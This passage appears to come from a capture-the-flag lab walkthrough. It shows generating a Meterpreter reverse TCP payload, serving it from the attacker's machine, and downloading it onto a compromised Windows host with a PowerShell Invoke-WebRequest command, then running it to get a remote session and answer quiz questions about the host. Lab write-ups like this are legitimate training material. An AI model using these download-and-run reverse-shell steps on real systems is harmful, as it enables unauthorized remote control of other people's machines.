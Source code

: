 In summary, this msfvenom command is generating a Windows Meterpreter reverse TCP payload, configuring it to connect back to the specified IP address and port, and saving the output as an executable file named shell.exe. This payload can be used as part of a penetration test or ethical hacking activity to gain control over a Windows system. Always ensure that you have proper authorization before using such tools and payloads in any environment. Unauthorized use is illegal and unethical.

<p align="center"> <img src="https://i.imgur.com/OFWI5X0.png" height="90%" width="90%" alt=""/>

We will dump the "shell.exe" payload into the Windows/Temp directory on the shell. First we will use `cd` command to move to the directory `/Windows/Temp`.

<p align="center"> <img src="https://i.imgur.com/A30V4N3.png" height="90%" width="90%" alt=""/>

We will need to open up a new terminal and use the command:

`python3 -m SimpleHTTPServer`

<p align="center"> <img src="https://i.imgur.com/lEVwqk7.png" height="90%" width="90%" alt=""/>

On the Shell terminal we will use:

`powershell -c "Invoke-WebRequest -Uri 'http://10.6.106.187:8000/shell.exe' -OutFile 'C:/Windows/Temp/shell.exe'`
- http://10.6.106.187 is our local machine.

<p align="center"> <img src="https://i.imgur.com/3XmqMM1.png" height="90%" width="90%" alt=""/>

We will now need to open up metasploit with `msfconsole` to exploit the payload on a new terminal. And follow the command:

<p align="center"> <img src="https://i.imgur.com/IJhcJCb.png" height="90%" width="90%" alt=""/>

Now we will need to go back to the shell terminal and run the "shell.exe" payload.

`.\shell`
- Successfully got into meterpreter on our local machine.

<p align="center"> <img src="https://i.imgur.com/roHVxwF.png" height="90%" width="90%" alt=""/>

We can use the `sysinfo` command to get the OS version.

<p align="center"> <img src="https://i.imgur.com/YxbHtXa.png" height="90%" width="90%" alt=""/>

Question 1: What is the OS version of this windows machine?

`Windows 2012 R2 (6.3 Build 9600)`

#

# Question 2

We will go into shell with the meterpreter > Change directory into "Program Files (x86).

<p align="center"> <img src="https://i.imgur.com/q1NoG5T.png" height="90%" width="90%" alt=""/>
